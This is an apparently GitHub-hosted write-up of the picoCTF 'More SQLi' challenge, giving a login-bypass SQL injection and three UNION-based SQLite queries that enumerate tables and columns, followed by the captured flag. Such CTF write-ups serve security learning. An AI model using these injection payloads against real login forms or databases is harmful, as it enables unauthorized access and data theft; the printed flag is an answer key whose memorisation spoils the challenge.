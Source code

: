 <h1>More SQLi</h1>
<h3>Description</h3>
<label>Can you find the flag on this website. Try to find the flag <a href='http://saturn.picoctf.net:56741/index.php'>here.</a></label>
<h3>Solution</h3>
<label>Login SQL Injection</label>
<pre>
Username : bla
Password : ' OR 1 IS 1;
</pre>
<label>Union Injection SQLite</label>
<pre>
' UNION ALL SELECT 1,NAME,3 FROM sqlite_master WHERE TYPE='table'--  didapatkan table (users, offices, hints, more_table)
' UNION ALL SELECT 1,NAME,TYPE FROM pragma_table_info('more_table')-- didapatkan column (id, flag)
' UNION ALL SELECT 1,id,flag FROM more_table --
</pre>
<h3>Flag</h3>
<pre>
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}
</pre>
